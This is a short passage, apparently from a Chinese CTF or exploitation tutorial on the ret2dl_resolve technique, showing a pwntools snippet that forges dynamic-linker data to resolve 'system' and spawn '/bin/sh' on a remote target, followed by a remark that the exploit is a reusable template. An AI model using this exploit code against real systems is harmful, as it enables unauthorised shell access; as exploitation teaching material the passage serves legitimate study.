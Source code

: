 ```python
buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
print(hex(bss_base))
r.interactive()
```

<img src="/upload/img/image-20220411122252803.png" alt="image-20220411122252803" style="zoom: 33%;" />
然后下面我再给出手动构造的exp，其实我还是直接复制了上面的exp，只不过改了几个参数而已，这其实就是个模板而已，我把需要改的参数用三个*标注一下,剩下的直接照搬，一把梭。
